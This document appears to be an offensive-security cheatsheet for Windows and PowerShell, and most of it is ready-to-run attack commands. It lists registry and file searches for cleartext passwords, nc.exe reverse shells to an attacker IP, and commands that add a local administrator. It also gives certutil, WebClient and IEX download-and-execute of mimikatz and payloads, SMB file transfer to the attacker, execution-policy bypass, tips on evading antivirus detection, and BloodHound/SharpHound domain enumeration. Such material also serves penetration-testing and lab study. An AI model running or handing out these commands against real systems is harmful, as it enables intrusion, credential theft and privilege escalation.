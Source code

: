 Windows(Powershell) Cheatsheet
=====================
work in progress

## Usefull information

- https://gist.github.com/babutzc/f68f5414fc8595ca8f80abbe36d7b946
- https://ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass
- https://github.com/moatn/cheatsheets/blob/master/windowsstuff.md

## Information gathering

### CMD
```
whoami
echo %username%
systeminfo
hostname
net use
net view
net user
net user <username>
net user <username> /domain
net localgroup
set
findstr /C:"<autoElevate>true" 
schtasks /query /fo LIST /v | findstr "tomcat"
```

### Powershell
```
$ExecutionContext.SessionState.LanguageMode
$Env:Path
Get-volume
hostname
get-process
get-service
Get-NetFirewallRule
Get-Childitem
Get-Content
```

### Networking

```
netstat -ano
route print
```

### cleartext passwords?

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml

%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

reg query "HKCU\Software\ORL\WinVNC3\Password"

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Run as

### Execute commands as a different user
Execute commands as different user when stored credentials are availeble (cmd.exe)
```
runas /user:.\username /savecred 'nc.exe -e cmd.exe 10.10.1.2 1234'
```

Execute commands as different user on powershell.
```
$username = "username"
$password = "password1"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
$Session    = New-PSSession -Credential $Credential
Invoke-Command -Session $Session  -ScriptBlock { nc.exe -e cmd.exe 10.10.1.2  1234 }
```

### Adding users

Quickly add a user to the system. If admin privs are also acquired, add the user to the admin group. 
```
net user username password /add
net localgroup administrators username /add
```

## Downloading Files

### kali
```
python3 -m http.server 80
```
### CMD
```
certutil -urlcache -split -f "http://10.10.14.24/mimikatz.exe" mim.exe
certutil.exe -urlcache -split -f "http://10.10.14.24/mimikatz.exe" %TMP%\mim.exe
```

### Powershell
```
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.24/nc.exe','c:\temp\nc.exe')
powershell.exe -c (Start-BitsTransfer -Source "http://10.10.14.17/nc.exe -Destination C:\temp\nc.exe")
powershell.exe wget "http://10.10.14.24/nc.exe" -outfile "c:\temp\nc.exe"
IEX (new-object System.Net.WebClient).DownloadString('http://10.10.14.24/shell.ps1')
wget
curl -O http://10.10.14.24/nc.exe
powershell -c -e {base64} 
```

### SMB

Setup SMB share to copy files

#### kali
(Make sure you use the correct path to impacket)
```
python3 tools/impacket/examples/smbserver.py DAAN /tmp/DAAN
```
#### win
```
net view \\10.10.14.24
dir \\10.10.14.24\DAAN

#from attacker
copy \\10.10.14.24\DAAN\nc.exe
#to attacker
copy nc.exe \\10.10.14.24\DAAN\nc.exe
```

### Mounting shares (CMD)
```
net use Y: \\10.10.10.25\C$ /USER:username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:FEEST\username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:.\username "password" /PERSISTENT:YES
```

## Powersploit

https://github.com/PowerShellMafia/PowerSploit
Documentation: https://powersploit.readthedocs.io/en/latest/

### PowerUp.ps1
Remove lines 1-9 as some mallware programs seem to flag this script because of these lines.

#### When the script doesn't run
Disable Execution Policy:
```
powershell -ep bypass
```
If a script will not run check for AMSI bypassing

#### Running PowerUp.ps1
```
Import-module PowerUp.ps1
. .\PowerUp.ps1

Invoke-AllChecks
```

## Bloodhound
https://github.com/BloodHoundAD/BloodHound

install on Kali
```
sudo apt-install bloodhound
```
start
```
bloodhound (in terminal)
sudo neo4j console
```
"Bolt enabled on 'ipaddress:port' "

"Remote interface available at: 'ipaddress:port"
Go to address and change the password in bolt (default password is neo4j)

On windows:
download sharphound and upload to victim
https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.exe

```
.\SharpHound.exe
```
Creates a zip, download it to Kali and drag it into BloodHound

Enum Bloodhound
- Search users you owned and mark them (rightclick "mark as owned")
- Click on the lines (right), querries > 
	- "shortest path from owned principals"
	- "shortest path to domain admins"
	- "dcsync rights"
